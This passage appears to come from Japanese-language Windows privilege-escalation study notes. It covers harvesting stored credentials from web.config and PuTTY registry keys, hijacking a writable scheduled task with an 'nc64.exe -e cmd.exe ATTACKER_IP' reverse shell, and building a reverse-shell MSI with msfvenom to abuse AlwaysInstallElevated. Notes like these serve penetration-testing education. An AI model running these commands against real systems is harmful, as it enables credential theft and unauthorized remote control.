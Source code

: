 ```
  
```
ファイル上のデータベース接続文字列を見つける
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
  
### Puttyの認証資格情報からパスワードを取得する
  
Puttyでは、**クリアテキストの認証資格情報を含むプロキシ構成を保存している**  
  
```
保存されているプロキシ資格情報を取得する
reg query HKEY_CURRENT_USER\Software\SimonTatham(ユーザー名)\PuTTY\Sessions\ /f "Proxy" /s
```
  
**このように、ブラウザ、電子メール クライアント、FTPクライアント、SSHクライアント、VNC ソフトウェアなど、パスワードを保存するすべてのソフトウェアには、ユーザーが保存したパスワードを回復する方法がある**  
ㅤ  
ㅤ  
ㅤ  
ㅤ  
ㅤ  
ㅤ  
## 構成ミスからの権限昇格

### スケジュールされたタスクを確認する

スケジュールされたタスクを調べると、**バイナリが失われたか、変更可能なバイナリを使用しているスケジュールされたタスクが表示される場合がある**  
→schtasksコマンドでタスクの詳細表示を取得することができる  

```
schtasks /query /tn vulntask /fo list /v

icaclsでタスクのファイルの権限を確認する
icacls c:\tasks\schtask.bat

仮に所属しているグループにフルアクセス(F)がある場合は、sctask.batに以下で書き換えをしてリバースシェルを取得できる
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

#### 手動でタスクを開始する
  
タスクがトリガするまで時間がかかる場合は以下のコマンドで手動でタスクを実行させることができる  
  
```
schtasks /run /tn vulntask
```
ㅤ  
ㅤ  
### AlwaysInstallElevatedが有効な場合の権限昇格
  
通常、インストーラーは、それを起動したユーザーの権限レベルで実行されるが、  
**AlwaysInstallElevatedが有効な場合は、任意のユーザー アカウント (権限のないアカウントも含む) からより高い権限で実行するように構成できる**  
  
また、この方法では、**以下の2つのレジストリ値を設定する必要がある。**
```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

そして、msfvenomでmsiファイルを生成する  
  
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
```
